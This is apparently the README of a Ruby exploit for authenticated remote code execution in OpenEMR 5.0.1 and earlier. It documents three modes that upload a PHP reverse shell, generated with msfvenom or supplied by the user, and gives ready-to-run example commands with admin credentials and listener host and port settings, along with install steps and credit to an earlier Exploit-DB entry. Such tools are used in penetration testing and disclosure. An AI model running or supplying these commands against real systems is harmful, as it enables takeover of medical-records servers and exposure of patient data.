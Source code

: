 # OpenEMR RCE exploit / PoC

> OpenEMR <= 5.0.1 - (Authenticated) Remote Code Execution

[[PacketStorm](https://packetstormsecurity.com/files/158711/OpenEMR-5.0.1-Remote-Code-Execution.html)] [[WLB-2020080011](https://cxsecurity.com/issue/WLB-2020080011)]

## Usage

```
$ ruby exploit.rb --help
OpenEMR <= 5.0.1 - (Authenticated) Remote Code Execution

Usage:
  exploit.rb manual --root-url <url> --shell <filename> --user <username> --password <password> [--debug]
  exploit.rb semi-auto --root-url <url> --user <username> --password <password> --payload <payload> --lhost <host> --lport <port> [--debug]
  exploit.rb auto --root-url <url> --user <username> --password <password> --lhost <host> --lport <port> [--debug]
  exploit.rb -H | --help

Options:
  -r <url>, --root-url <url>            Root URL (base path) including HTTP scheme, port and root folder
  -s <filename>, --shell <filename>     Filename of the PHP reverse shell payload
  -u <username>, --user <username>      Username of the admin
  -p <password>, --password <password>  Password of the admin
  -m <payload>, --payload <payload>     Metasploit PHP payload
  -h <host>, --lhost <host>             Reverse shell local host
  -t <port>, --lport <port>             Reverse shell local port
  --debug                               Display arguments
  -H, --help                            Show this screen

Examples:
  exploit.rb manual -r http://example.org/openemr -s myRevShell.php -u admin -p pass123
  exploit.rb semi-auto -r http://example.org:8080/openemr -u admin_emr -p qwerty2020 -m 'php/reverse_php' -h 10.0.0.2 -t 8888
  exploit.rb auto -r https://example.org:4443 -u admin_usr -p rock5 -h 192.168.0.2 -t 9999
```

## Modes

- **Auto**: you know the target and have your listener ready, let the exploit handle the rest
- **Semit-auto**: same as auto but you would like to specify another payload than the default `php/reverse_php`
- **Manual**: you already have a custom PHP reverse shell, the exploit lets you specify it

## Requirements

- [httpclient](https://github.com/nahi/httpclient)
- [docopt.rb](https://github.com/docopt/docopt.rb)
- (Optional) [Metasploit Framework](https://github.com/rapid7/metasploit-framework) (`msfvenom` for reverse shell generation in auto and semi-auto modes)

Example for BlackArch:

```
pacman -S ruby-httpclient ruby-docopt metasploit
```

Example using gem:

```
gem install httpclient docopt
```

## Reference

This is a better re-write of [EDB-ID-48515][EDB-ID-48515]:

- using arguments (instead of hardcoded values)
- allowing custom PHP reverse shell or auto generating one with `msfconsole`
- cleaner & more customizable
- using ruby (python2 is deprecated)

This exploit was tested with Ruby 2.7.1.

About [EDB-ID-48515][EDB-ID-48515]:

```
Exploit Author: Musyoka Ian
Date: 2020-05-25
Vendor Homepage: https://www.open-emr.org/
Software Link: https://github.com/openemr/openemr/archive/v5_0_1_3.tar.gz
Dockerfile: https://github.com/haccer/exploits/blob/master/OpenEMR-RCE/Dockerfile 
Version: < 5.0.1 (Patch 4)
Tested on: Ubuntu LAMP, OpenEMR Version 5.0.1.3
References: https://medium.com/@musyokaian/openemr-version-5-0-1-remote-code-execution-vulnerability-2f8fd8644a69
```

[EDB-ID-48515]:https://www.exploit-db.com/exploits/48515
